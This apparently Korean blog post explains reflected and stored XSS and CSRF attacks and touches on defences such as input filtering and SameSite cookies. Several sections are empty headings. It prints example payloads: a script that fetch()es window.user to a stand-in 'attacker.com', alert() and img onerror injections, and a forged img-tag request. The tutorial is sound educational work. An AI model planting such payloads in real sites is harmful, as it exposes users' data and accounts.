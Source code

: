 ```yaml
---
layout: post
title: '[ETC] XSS와 XSRF'
featured-img: browser/cors.png
category: [tech, etc]
summary: 웹 취약성을 노리는 XSS와 XSRF에 대해 살펴보도록 하겠습니다.
---
```


이번 포스트에서는 웹 취약성을 노리는 XSS와 XSRF(혹은 CSRF)와 공격에 대해 살펴보도록 하겠습니다.

# XSS(Cross-Site Scripting)
사이트 간 스크립팅(XSS)는 웹 애플리케이션에서 많이 나타나는 웹 취약점 공격 중 하나입니다. 웹 사이트 관리자가 아닌 다른 사람이 웹 페이지에 악성 스크립트를 삽입할 수 있는 점을 노린 공격입니다. 주로 게시판에 악성 스크립트가 담긴 글을 올리는 형태로 이루어집니다.

XSS의 공격 유형은 표준으로 정해져 있지는 않지만, 비지속적인 공격(Non-persistent XSS)과 지속적인 공격(persistent XSS)으로 구분할 수 있습니다.

## 타겟이 되는 취약점
웹 애플리케이션이 사용자로부터 입력 받은 값을 제대로 검사하지 않고 사용할 경우를 노린 공격입니다. 공격자가 사용자의 정보(쿠키, 세션 등)를 탈취하거나 비정상적인 기능을 수행하게 할 수 있습니다.

## 비지속적(Non-persistent) XSS 공격 방법
검색 엔진의 취약점을 노린 공격을 예로 들 수 있습니다. 포탈 사이트에서 문자열을 검색할 경우, 일반적으로 검색 결과 페이지에서 검색한 문자열을 그대로 다시 표시합니다. 검색한 문자열에 스크립트가 포함되어 그 스크립트가 동작하게 된다면 비지속적 XSS 공격에 성공하게 되는 것입니다.

다른 방법으로는 `https://search.shopping.naver.com/search/all?query=<script>alert('XSS')</script>`와 같이 쿼리에 스크립트가 포함된 링크에 접속하여, 이 스크립트가 접속된 페이지에서 실행 된다면 비지속적 XSS 공격이 성공하게 됩니다. (위의 링크는 `<script>alert('XSS')</script>` 검색 결과와 동일합니다.)

네이버 등의 포탈에서 아래 그림과 같이 `<script>alert('XSS')</script>`를 검색(또는 `https://search.shopping.naver.com/search/all?query=<script>alert('XSS')</script>`에 접속)하여 검색 결과에 표시된 검색 문자열에 포함된 스크립트가 실행된다면, XSS 공격에 성공한 것이 됩니다. (물론 잘 방어되어 있습니다.)

![네이버 XSS 공격 시도](/assets/img/posts/etc/naver_non_persistent_xss.png)

한번의 검색으로 한번의 XSS 공격을 할 수 있기 때문에 비지속적 XSS입니다. 비지속적 XSS는 검색 문자열을 그대로 화면에 다시 표시되는 점을 노린 공격이기 때문에 반사(Reflected) XSS라고도 불립니다.

## 지속적(Persistent) XSS 공격 방법
지속적 XSS 공격은 비지속적 XSS 공격보다 더 치명적인 공격 방법입니다. 게시판을 예로 들면, 공격자가 게시판 글쓰기 통해서 스크립트를 포함한 게시글을 작성한 후 서버에 저장 합니다. 다른 사용자가 그 게시글을 읽을 때 게시글에 포함된 스크립트가 실행되면서 XSS 공격이 성공하게 됩니다. 게시글에 그 글을 읽는 사용자의 이름과 이메일 등의 개인 정보를 공격자에게 전송하는 스크립트가 포함되어 있다고 하면, 게시글을 읽는 모든 사람의 개인 정보가 유출되게 됩니다.

예를 들어, 사용자 정보가 window 객체의 user 필드에 저장되어 있다고 하면, 아래와 같이 공격자가 스크립트를 포함한 게시글을 작성합니다.

```none
안녕하세요.

<script>
  fetch('http://attacker.com/user', {
    method: 'POST',
    body: JSON.stringify(window.user)
  });
</script>

반갑습니다.
```

`<script>` 태그는 화면에 노출되지 않기 때문에 사용자는 자신의 개인 정보가 유출되는지 모른체 피해를 입게 됩니다.

## 대응 방법
XSS 공격을 막기 위해서는 페이지에서 공격자가 입력한 스크립트를 실행하지 못하게 해야 합니다. 스크립트를 실행하지 못하게 하려면, 공격자의 스크립트 입력을 막거나 브라우저가 스크립트를 실행하지 못하게 공격자의 스크립트 값을 변경해야 합니다.

### 입력 값 제한
스크립트를 입력하지 못하게 하는 방법으로 XSS 공격을 막을 수 있습니다. 하지만 `<script>` 태그 뿐만 아니라 아래 img 태그를 사용하는 방법을 포함하여 다양한 방법으로 스크립트를 실행 할 수 있습니다.

```html
<img src="#" onerror="alert('XSS')">
```

모든 케이스에 대응해서 입력 값을 제한하는 것은 쉽지 않기 때문에 아래에서 이야기 하는 입력 값 치환 부분이 XSS 공격을 방어하는데 더 효과적입니다.

### 입력 값 치환

# XSRF(Crose-Site Request Forgery)
사이트 간 요청 위조(XSRF 또는 CSRF라고 함)는 사용자가 자신의 의지와 무관하게 공격자가 의도한 행위(수정, 삭제, 등록 등)를 특정 웹사이트에 요청하게 하는 공격입니다.

## 타겟이 되는 취약점
사이트 간 요청 위조는 특정 웹사이트가 사용자의 웹 브라우저를 신뢰하는 상태를 노린 공격입니다. 사용자가 웹사이트에 로그인한 상태에서 사이트간 요청 위조 공격 코드가 삽입된 페이지를 열면, 공격 대상이 되는 웹사이트는 위조된 공격 명령이 믿을 수 있는 사용자로부터 발송된 것으로 판단하게 되어 공격에 노출됩니다.

## 공격 방법
공격 방법은 아래와 같습니다.

1. 이용자는 웹사이트에 로그인하여 정상적인 쿠키를 발급받는다.
2. 공격자는 링크(예를 들어, `http://www.geocities.com/attacker`와 같은)를 이메일이나 게시판 등의 경로를 통해 이용자에게 전달한다.
3. 위의 링크의 HTML 페이지는 `<img src= "https://travel.service.com/travel_update?.src=Korea&.dst=Hell">` 같은 이미지 태그를 가집니다. 이 링크는 출발지와 도착지를 등록하기 위한 링크인데, 그 중 도착지 정보를 변조한 링크입니다.
4. 이용자가 공격용 페이지를 열면, 부라우저는 이미지 파일을 받아오기 위해 공격용 URL을 실행합니다.
5. 이용자의 승인이나 인지 없이 출발지와 도착지가 등록되어 공격이 완료됩니다.

해당 서비스 페이지는 단순히 쿠키를 통해 본인확인이 이루어지기 때문에 공격자가 정상적인 이용자의 정보를 수정 가능하게 됩니다.

## 공격 예제
XSRF 공격이 이루어지는 예제를 만들어 보도록 하겠습니다.

## 대응 방법
크롬 80버전 부터 새로운 쿠키 정책이 적용되어 Cookie의 SameSite 속성의 기본값이 Lax로 변경 되었습니다.

# 부록

## SameSite Cookie

#### 참고
- [https://ko.wikipedia.org/wiki/사이트_간_스크립팅](https://ko.wikipedia.org/wiki/사이트_간_스크립팅)
- [https://ko.wikipedia.org/wiki/사이트_간_요청_위조](https://ko.wikipedia.org/wiki/사이트_간_요청_위조)
- [https://ohgyun.com/543](https://ohgyun.com/543)
- [https://rednooby.tistory.com/22](https://rednooby.tistory.com/22)
- [https://3rd-big.tistory.com/23](https://3rd-big.tistory.com/23)
- [https://itstory.tk/entry/CSRF-공격이란-그리고-CSRF-방어-방법](https://itstory.tk/entry/CSRF-공격이란-그리고-CSRF-방어-방법)
- [https://www.sickyourcoding.com/forQuiz/csrfintro](https://www.sickyourcoding.com/forQuiz/csrfintro)
- [https://swk3169.tistory.com/24](https://swk3169.tistory.com/24)
- [https://docs.microsoft.com/ko-kr/azure/active-directory/develop/howto-handle-samesite-cookie-changes-chrome-browser?tabs=dotnet](https://docs.microsoft.com/ko-kr/azure/active-directory/develop/howto-handle-samesite-cookie-changes-chrome-browser?tabs=dotnet)
- [https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite](https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Set-Cookie/SameSite)
- [https://ifuwanna.tistory.com/223](https://ifuwanna.tistory.com/223)
- [http://blog.plura.io/?p=7614](http://blog.plura.io/?p=7614)
- [https://swk3169.tistory.com/23](https://swk3169.tistory.com/23)